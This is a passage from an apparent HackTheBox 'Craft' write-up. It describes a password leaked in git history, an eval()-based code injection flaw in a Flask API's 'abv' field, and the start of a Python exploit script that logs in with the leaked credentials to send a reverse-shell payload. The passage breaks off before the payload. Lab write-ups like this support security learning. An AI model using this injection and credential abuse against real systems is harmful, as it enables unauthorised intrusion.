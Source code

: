 And there's a repository that seems looks like it contains the code
for the previously found API:
![](/images/hackthebox/craft/craft-repo.png)

Reading the commit history, specifically in commit `a2d28ed155`, we find out
that there was a password accidentally commited for the user `dinesh`:
![](/images/hackthebox/craft/api-key.png)

When something like this happens, the obvious thing to do is to change that
password, but visiting the login endpoint and using the credentials actually
works!

Let's explore more in depth the repository. Usually when there's an API that we
can interact with, I search in the code for calls to `eval` or `system` and
indeed there's one in the `brew` endpoint. Here's the vulnerable piece of code:

```python
@auth.auth_required
@api.expect(beer_entry)
def post(self):
    """
    Creates a new brew entry.
    """

    # make sure the ABV value is sane.
    if eval('%s > 1' % request.json['abv']):
        return "ABV must be a decimal value less than 1.0", 400
    else:
        create_brew(request.json)
        return None, 201
```

Reading the previously found API instructions, we can see that we can create a
new brew by making a POST request with the following data:
```json
{
  "id": 0,
  "brewer": "string",
  "name": "string",
  "style": "string",
  "abv": "string"
}
```

And in the API code, whatever we send in the `abv` field is then passed to the
`eval` function. Looks like RCE to me!

After searching a Python reverse shell online, given that the create a new brew
we have to be authenticated, let's use the previously found code to send our
payload in the `abv` field:
```python
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = {'X-Craft-API-Token': token, 'Content-Type': 'application/json'}

brew = {
    "name": "test",
    "brewer":"test",
```